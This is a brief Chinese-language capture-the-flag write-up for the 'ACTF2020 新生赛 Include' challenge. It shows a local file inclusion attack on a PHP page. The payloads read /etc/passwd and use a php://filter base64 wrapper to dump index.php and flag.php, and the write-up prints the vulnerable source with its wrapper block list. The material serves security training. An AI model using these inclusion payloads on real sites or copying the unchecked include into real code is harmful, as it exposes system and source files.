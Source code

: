 # [ACTF2020 新生赛]Include

打开链接发现tips url：`/?file=flag.php`

根据题目标题和hint猜测这应该是一道文件包含题。

尝试`/?file=/etc/passwd`包含成功！

尝试使用php read filter 读取index.php源码
`/?file=php://filter/read=convert.base64-encode/resource=index.php`
```php
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	include($file);
}else{
	echo '<a href="?file=flag.php">tips</a>';
}
?>
```

读取flag.php得到flag
`/?file=php://filter/read=convert.base64-encode/resource=flag.php`
